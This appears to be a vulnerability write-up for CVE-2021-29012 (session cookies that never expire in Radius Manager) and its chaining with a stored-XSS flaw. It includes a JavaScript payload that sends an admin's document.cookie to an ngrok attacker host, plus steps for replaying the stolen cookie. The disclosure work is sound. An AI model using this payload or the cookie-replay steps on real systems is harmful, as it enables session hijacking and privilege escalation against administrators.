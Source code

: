 +++
title = "CVE-2021-29012 - Broken Session Management"
+++

CVE-2021-29012 (Broken Session Management)

When an admin user logs in, their session cookie is given & doesn't expire upon logging out. Instead the session cookie is temporarily disabled until the admin logs in again. The session cookie doesn't change so if an attacker manages to steal a session cookie, then they can simply reuse it when the admin is logged in again and impersonate them. And if they aren't successful at logging in the first time due to the admin being logged out, they can simply keep trying until the admin is logged in again and get a successful login.

Successful exploitation requires that you have access to the Radius Management web interface and be able to make requests so you can simply change out the session cookie header when making HTTP requests.

This vulnerability can be exploited in order to elevate privileges when chained together with CVE-2021-29011 in order to gain the session cookie of another user with elevated privileges.

## Demo Videos

We simply swap an admin's cookie for a low privileged user's cookie and are able to assume the privileges of the admin as shown here:

[Dropbox - session-impersonation-2021-03-19_23.11.19.mkv](https://www.dropbox.com/s/9ootf6udj761bbh/session-impersonation-2021-03-19_23.11.19.mkv?dl=0)

The overall process that I went through to exploit this is:

1. Create an account with no privileges
  
2. Grab the admin session cookie
  
3. Make a request that requires privileges such as creating a user using the low privilege account
  
4. Request is denied due to no privileges
  
5. Resend the request but this time modify the cookie parameter so that it's replaced with the admin session cookie
  
6. Request is successful & we can now make requests on behalf of the admin user while the admin user is logged in.


# Chaining CVEs Together

This section details chaining together CVE-2021-29012 & CVE-2021-29011 in order to take an admin's session cookie & perform requests on their behalf.

There are multiple fields that are vulnerable to cross-site scripting but I could only find 1 field (the access point description field) that could fit an entire script for extracting a cookie & sending it off to an attacker for use in session hijacking.

## Tools Used:

1. Ngrok & Python's simple HTTP server to simulate an attacker's server receiving the session cookie

## Proof of Concept

Once we place our script inside the Access Point's description, anytime a user lists the available access points, we will receive their session cookie on our server & be able to impersonate them.

### Cross Site Scripting (XSS)

We first need to inject our script into an input field so that whenever an admin logs in & lists the available access points, their cookie is sent to us (the attacker in this scenario).

The script used that will be injected is:

```javascript
<script> 
var xl = new XMLHttpRequest(); 
const url = 'http://dat.ngrok.io/cookie=' + document.cookie; 
xl.open("GET", url, false); xl.send();alert(xl.responseText);
</script>
```

where dat is the subdomain generated by ngrok. And we will be injecting it into the description field when adding/editing an access point.

After listing the available access points as an admin, this is what an attacker would see:

![](https://i.imgur.com/zxLtOXc.png)

As you can see, we have everything we need in order to impersonate the admin user and this was achieved just by having them list the available access points. This of course requires that an attacker already have an account registered on the Radius Manager with sufficient privileges to add/edit an access point.

### Broken Session Management Exploitation

The next stage of the attack would be abusing the broken session management in order to make requests on someone else's behalf without their interaction. This simply involves intercepting the request exchanging the cookie parameter with the stolen one:

1. Make the original request for adding a user from an account with low privileges & you will get a response that looks like this:

![](https://i.imgur.com/C21B7PU.png)

2. Now do repeat step 1 & sniff the request out with Firefox's network monitoring tool (inspect element > network):

![](https://i.imgur.com/IgyGoQF.png)

3. Right-click the request & hit *Edit and Resend* & change the *Cookie: PHPSESSID* value for the stolen cookie & change the *login_admin* value for the value provided by the stolen session cookie. After doing so & resending the request, now we can make requests as the admin user:

![](https://i.imgur.com/sNJxhL7.png)

* **NOTE: This requires the admin to be currently logged in. If the admin is logged out then the session cookie is invalid until they login again. But the session cookie does not change once they log out. It stays the same.**


